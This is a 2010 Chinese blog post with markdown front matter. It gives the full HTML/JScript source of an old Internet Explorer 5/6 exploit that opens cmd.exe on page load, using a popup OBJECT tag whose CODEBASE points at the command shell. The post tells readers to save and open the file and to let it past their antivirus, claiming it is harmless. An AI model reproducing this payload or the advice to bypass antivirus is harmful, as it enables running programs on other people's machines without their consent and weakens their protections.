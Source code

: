 ```yaml
---
stackbit_url_path: >-
  posts/Javascript-运行客户端的-cmd-程序
title: 'Javascript 运行客户端的 cmd 程序'
date: '2010-05-14 06:16:57'
excerpt: >-
  
comments_count: 0
positive_reactions_count: 0
tags: 
  - 
canonical_url: https://be-net.azurewebsites.net/post/2010/05/14/Javascript-运行客户端的-cmd-程序
template: post
---
```


        <p>一、在桌面上新建一个文本文件，并打开；</p>
<p>二、复制下面的代码，粘贴在文本文件中；</p>
<p>三、保存并关闭，然后将文本文件重命名为“test.html”；</p>
<p>四、用IE打开它。</p>
<p>&nbsp;</p>
<p>注意：如果有杀毒软件阻止它，请放行。它不会对电脑造成任何损害。</p>
<p>&nbsp;</p>
<p>代码：</p>
<pre class="brush: javascript">&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN"&gt;
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;IE6 security...&lt;/TITLE&gt;
&lt;style type="text/css"&gt;
BODY{font-family:Arial,Helvetica,sans-serif;font-size:16px;color:#222222;background-color:#aaaabb}
H1{background-color:#222222;color:#aaaabb}
&lt;/style&gt;
&lt;META http-equiv=Content-Type content="text/html; charset=windows-1252"&gt;
&lt;SCRIPT language=JScript&gt;

var programName=new Array(
    'c:/windows/system32/cmd.exe',
    'c:/winnt/system32/cmd.exe',
    'c:/cmd.exe'
);

function Init(){
    var oPopup=window.createPopup();
    var oPopBody=oPopup.document.body;
    var n,html='';
    for(n=0;n&lt;programName.length;n++)
        html+="&lt;OBJECT NAME='X' CLASSID='CLSID:11111111-1111-1111-1111-111111111111' CODEBASE='"+programName[n]+"' %1='r'&gt;&lt;/OBJECT&gt;";
    oPopBody.innerHTML=html;
    oPopup.show(290, 190, 200, 200, document.body);
}

&lt;/SCRIPT&gt;
&lt;/head&gt;
&lt;BODY onload="Init()"&gt;
&lt;H1&gt;Hmm, let's start a command shell...&lt;/H1&gt;
&lt;p&gt;
This page doesn't do anything malicious, but is a demonstration of how to execute a program on a remote machine using the
marvelously secure Internet Explorer web browser!!
&lt;/p&gt;
&lt;p&gt;
Up until at least 18/02/02, this script would open a command window when viewed in IE5/6 under WindowsXP and Win2k (possibly also WinME). There
are currently no patches available using "Windows Update" which will prevent this.
&lt;/p&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
</pre>
      
